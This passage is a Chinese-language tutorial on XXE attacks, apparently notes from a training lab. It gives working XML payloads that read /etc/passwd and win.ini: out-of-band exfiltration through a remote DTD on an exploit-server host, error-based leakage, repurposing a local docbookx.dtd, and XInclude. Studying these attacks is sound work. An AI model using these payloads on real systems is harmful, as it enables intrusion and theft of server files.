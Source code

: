 当xml解析时  
1. 首先解析xxe参数实体,这时从恶意服务器请求加载恶意的dtd文件.
2. 解析远程dtd文件时,首先触发解析`%eval`参数实体.
3. 在`%eval`参数实体的定义中,获取到`%exfiltrate`实体的定义.
4. 解析`%exfiltrate`参数实体,其定义为请求恶意服务器地址,其中包含x参数参数实体`%file`的值.
5. 而`%file`参数实体的定义为读取到的/etc/passwd的值,这时在恶意服务器上的请求日志中便能得到该文件的内容.  

有时候因为/etc/passwd中的特殊字符(换行等)会导致文件读取失败,可以考虑换成/etc/homename.
### 报错回显
这种方式通过构造一个错误的解析数据,使得解析器报错并且将想要的结果包含在错误信息中,如果服务器会返回错误信息的话则可以从报错信息中获取相应数据.
1. 在服务上托管一个会产生解析错误的dtd文档.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///xxx/%file;'>">
%eval;
%exfil;
```  
可以看到在`exfil`实体的定义中,其file协议读取文件时包含了一个不存在的路径,这会导致一个报错.
2. 插入如下payload
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a10000c03cb9a04c0c590d401bd00c7.exploit-server.net/exploit.dtd"> %xxe;]>
```
因为路径错误最终会将整个路径作为错误信息返回,其中则包含了`%file`实体的内容.  
![](2022-11-01-15-26-49.png)
### JAVA无回显XXE
### 滥用本地DTD
报错和OOB通道都是利用的外部DTD文件,但如果只能使用内部DTD的话,则无法进行利用,因为在外部DTD中,是可以在参数实体中嵌套其它参数实体的,而在内部实体中则无法进行嵌套.  
然而当一个DTD文件中同时存在内部DTD和外部DTD声明时,那么内部的DTD是可以重新定义外部DTD中的实体的.那么则可以通过滥用一些本地的DTD来触发错误解析得到敏感数据.

1. 假设本地存在一个dtd文件,其中定义了一个ISOamso实体.
2. 插入如下payload

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```  
通过在payload中的内部DTD重新定义外部docbookx.dtd中的ISOamso实体,将其定义为报错回显的payload,那么在加载本地docbookx.dtd中的ISOamso时同样会触发路径错误从而暴露错误信息得到敏感数据.   
![](2022-11-01-16-33-35.png)
## 不常见的XXE攻击面
除了请求中的XML数据格式可能存在XXE,还有一些不明显的功能也可能造成XXE.
### XInclude attacks
有些时候,用户提交的数据可能只是一个XML数据的一部分,即无法控制整个XML文档,则无法在`DOCTYPE`中定义实体进行XXE.
而XInclude是XML定义的一部分,它允许从子文件中建立一个XML文档。可以把XInclude攻击放在XML文档中的任何数据值中，因此,可以在只控制被放入服务器端XML文档的单一数据项的情况下进行XXE.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
<xi:include href="file:///C:/Windows/win.ini" parse="text"/>
</foo>
```  